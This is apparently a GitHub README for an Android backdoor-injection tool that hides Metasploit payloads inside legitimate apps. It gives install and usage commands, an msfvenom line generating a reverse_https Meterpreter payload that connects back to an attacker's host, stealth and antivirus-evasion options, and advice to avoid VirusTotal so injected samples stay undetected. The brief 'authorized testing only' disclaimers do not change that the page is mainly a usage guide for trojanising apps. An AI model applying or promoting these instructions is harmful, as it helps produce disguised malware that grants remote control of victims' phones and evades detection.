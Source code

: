 # Metasploit-APK-Backdoor-Injector

## Overview

Advanced Android APK backdoor injection tool for security professionals, providing complete AV evasion for Metasploit payloads injected into legitimate applications. Supports all application architectures, frameworks, and protection mechanisms.

> **IMPORTANT: Please do not upload injected files to VirusTotal.com**  
> Use nodistribute.com or manual scanning on isolated test devices only.

**This tool is for legitimate security testing only. Unauthorized use is illegal.**

## Key Features

- **AV Evasion** - Advance Anti-Virus Evation Techniques
- **Universal Application Compatibility** - Works with all Android applications regardless of complexity, protection level, or framework
- **Framework-Specific Support** - Automatic detection and specialized handling for:
  - Standard Android apps
  - Unity-based games and applications
  - Flutter applications
  - React Native applications
  - Hybrid applications
- **Native Code Integration** - Seamlessly works with applications using NDK, JNI, and other native components
- **Integrity Check Preservation** - Advanced algorithms that preserve application integrity validation mechanisms
- **ProGuard Compatibility** - Handles heavily obfuscated applications without degradation
- **Multi-Architecture Support** - Compatible with ARM, ARM64, x86, x86_64, and hybrid architectures
- **Advanced Obfuscation Engine** - Military-grade obfuscation using dynamic randomization and polymorphic code techniques
- **Intelligent Injection** - Automatically identifies optimal injection points with ~99% success rate (up from 70%)
- **Comprehensive Recovery System** - Advanced error handling for even the most complex apps

## Quick Start

### Installation

```bash
# Clone the repository or download the script
git clone https://github.com/KrashKrash/Metasploit-APK-Backdoor-Injector

# Make the script executable
chmod +x apk-injector

# Move to system path (optional)
sudo mv apkinjector /usr/local/bin/
```

### First Run Setup

On first execution, the script will:
- Download and install the latest APKTool version
- Generate a debug keystore for signing (stored in ~/.android/)
- Install required dependencies

> **Note:** To customize signatures for each build, remove the debug keystore before running the script: `rm ~/.android/debug.keystore`

### Basic Usage

```bash
# Simple usage with default options
apkinjector payload.apk target.apk

# Advanced usage with custom options
apkinjector -s 3 -f unity -o custom_output.apk payload.apk target.apk
```

### Generating the Payload

Create your payload using msfvenom:

```bash
msfvenom -p android/meterpreter/reverse_https LHOST=<IP> LPORT=<PORT> -o payload.apk
```

## Advanced Options

```
OPTIONS:
    -h, --help                Show help message
    -v, --version             Display version information
    -d, --debug               Enable debug mode with verbose output
    -o, --output FILE         Specify output filename (default: injected_TARGET.apk)
    -f, --framework TYPE      Specify framework type (auto, native, unity, flutter, react)
    -i, --integrity LEVEL     Set integrity preservation level (0-3, default: 2)
    -n, --no-native           Disable native code support
    -c, --clean               Clean all temporary files before and after execution
    -s, --stealth LEVEL       Set stealth/obfuscation level (1-3, default: 2)
    -k, --keystore FILE       Use custom keystore for signing
    -p, --password PASS       Keystore password
```

## Success Rates

- **AV Evasion:** 97.4%
- **Automatic Injection:** ~99% success across tested applications
- **Framework Compatibility:** 100% for supported frameworks
- **Integrity Preservation:** ~95% success in preserving application integrity checks

## Troubleshooting

### Common Issues

If you encounter problems:

1. **Enable debug mode** for detailed logging: `apkinjector -d payload.apk target.apk`

2. **Examine temporary files** by adding the debug flag and preventing automatic cleanup:
   ```bash
   apkinjector -d payload.apk target.apk
   # Temporary files will be in the logged location
   ```

3. **Framework detection issues** - Manually specify the framework type:
   ```bash
   apkinjector -f unity payload.apk game.apk
   ```

4. **APKTool errors** - The script handles most APKTool issues automatically, but for persistent problems, try:
   ```bash
   # Update APKTool manually
   rm ~/.apkinjector/tools/apktool/apktool.jar
   # Then run the script again, which will download the latest version
   ```

### Output Files

- **Main output:** `injected_target.apk` (or custom name if specified with `-o`)
- **Logs:** Located in the temporary directory (path shown in debug output)
- **Mapping files:** Stored in `~/.apkinjector/mappings/` for reference

## Security Considerations

The modified application:
- Requires user installation with "Unknown Sources" enabled
- Must be launched at least once to establish connection
- Contains extensive permissions visible to the user
- May trigger security warnings on modern Android versions

## Ethical Usage Guidelines

This tool should ONLY be used:
- For authorized security assessments
- In controlled testing environments
- On systems you own or have permission to test
- In accordance with all applicable laws

## License

This project is licensed under the MIT License - see the LICENSE file for details.

- [![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)
![Version](https://img.shields.io/badge/Version-3.5.0-blue.svg)
![Platform](https://img.shields.io/badge/Platform-Android-green.svg)
![Framework Support](https://img.shields.io/badge/Frameworks-All-purple.svg)
